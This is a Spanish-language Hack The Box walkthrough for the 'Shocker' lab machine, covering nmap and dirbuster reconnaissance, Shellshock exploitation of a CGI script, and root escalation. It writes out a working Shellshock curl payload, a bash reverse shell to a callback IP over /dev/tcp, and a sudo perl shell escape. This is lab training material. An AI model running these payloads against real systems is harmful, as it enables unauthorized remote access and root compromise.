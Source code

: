 ![image](https://user-images.githubusercontent.com/50930193/165199400-be11ac94-89bc-402f-8da2-bcec9eb7de23.png)

# Shocker (Linux)

En Hack the Box levante la máquina shocker

![image](https://user-images.githubusercontent.com/50930193/165199618-0bd695ae-d127-466e-a0b7-b20dc0994bb4.png)


### Conexión a la VPN

Dentro de hack the box ingrese a la ruta *https://www.hackthebox.com/home/htb/access* para descargar su archivo de conexión VPN y luego conéctese su kali a HTB usando el archivo que descarg+on

```
openvpn --config rberrospilast.ovpn 
```
![image](https://user-images.githubusercontent.com/50930193/165199941-84017c03-ac35-4514-87de-be14b15ff247.png)

Una vez conectado le aparecerá un mensaje similar 

![image](https://user-images.githubusercontent.com/50930193/165200041-126d0fde-d33f-4a79-95fa-6f697112fdcc.png)


### Reconocimiento

Lo primero es lo primero, ejecutamos un escaneo nmap inicial rápido para ver qué puertos están abiertos y qué servicios se están ejecutando en esos puertos
```
nmap -sS -Pn --open -p1-65535 -vvv -oN  10.129.116.67_tcp.txt  10.129.116.67 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| vulners: 
|   cpe:/a:apache:http_server:2.4.18: 
|     	CVE-2017-7679	7.5	https://vulners.com/cve/CVE-2017-7679
|     	CVE-2017-7668	7.5	https://vulners.com/cve/CVE-2017-7668
|     	CVE-2017-3169	7.5	https://vulners.com/cve/CVE-2017-3169
|     	CVE-2017-3167	7.5	https://vulners.com/cve/CVE-2017-3167
|     	EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB	7.2	https://vulners.com/exploitpack/EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB	*EXPLOIT*
...
|     	1337DAY-ID-4533	0.0	https://vulners.com/zdt/1337DAY-ID-4533	*EXPLOIT*
|     	1337DAY-ID-3109	0.0	https://vulners.com/zdt/1337DAY-ID-3109	*EXPLOIT*
|_    	1337DAY-ID-2237	0.0	https://vulners.com/zdt/1337DAY-ID-2237	*EXPLOIT*
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
[*] Execution time in seconds:
	 TTL: 0
	 Furious: 19
	 Nmap: 15
	 Total: 34

```
Se tiene esta información
```
      80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
```


### Enumeración

Siempre empiezo enumerando HTTP primero (Puerto 80). Visitamos el sitio web y no encontramos nada útil.

![b21](https://user-images.githubusercontent.com/50930193/111671725-387f6400-87e7-11eb-8935-72479d307fc7.jpg)

A continuación, ejecutemos dirbuster y obtendremos el siguiente resultado
```
dirbuster
```
![image](https://user-images.githubusercontent.com/50930193/165198878-07f921d6-e4d0-40a0-bd58-9356fa4501e7.png)

![b20](https://user-images.githubusercontent.com/50930193/111671738-3ae1be00-87e7-11eb-8a21-e9cf21b76dc0.jpg)

Entonces, hemos revisado el comportamiento de este un programa cgi llamado *user.sh*, cuando ejecutamos este programa podemos descargar la respuesta de cgi y revisar su contenido.

![b22](https://user-images.githubusercontent.com/50930193/111673290-d0ca1880-87e8-11eb-9e85-aba32cba2b37.jpg)

![b24](https://user-images.githubusercontent.com/50930193/111674184-bcd2e680-87e9-11eb-96ef-622efc1d7298.jpg)

### Explotación

Aparentemente, este sitio web tiene una vulnerabilidad de Shellshock, Shellshock, también conocido como Bashdoor, es una familia de errores de seguridad en el shell Bash de Unix. Shellshock podría permitir que un atacante haga que Bash ejecute comandos arbitrarios y obtenga acceso no autorizado a muchos servicios relacionados con Internet, como servidores web, que usan Bash para procesar solicitudes. Intentemos ejecutar comandos
```
$ curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'id'" http://10.129.116.67/cgi-bin/user.sh

uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Entonces creamos un shell inverso
```
curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.81/1234 0>&1'" http://10.129.116.67/cgi-bin/user.sh
```
![b25](https://user-images.githubusercontent.com/50930193/111733536-2254c080-8846-11eb-8a73-73ac48f90284.jpg)

Excelente obtenemos shell!!

### Escalada de Privilegios

Ejecutamos *sudo -l* para determinar qué permisos tenemos.  
```
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

```

Finalmente, podemos ejecutar perl como root, así que ejecutamos este comando simple y ¡tenemos root!

```
sudo /usr/bin/perl -e 'exec "/bin/sh"'
```
![b26](https://user-images.githubusercontent.com/50930193/111734337-f3d7e500-8847-11eb-96bd-47461b4ebcff.jpg)
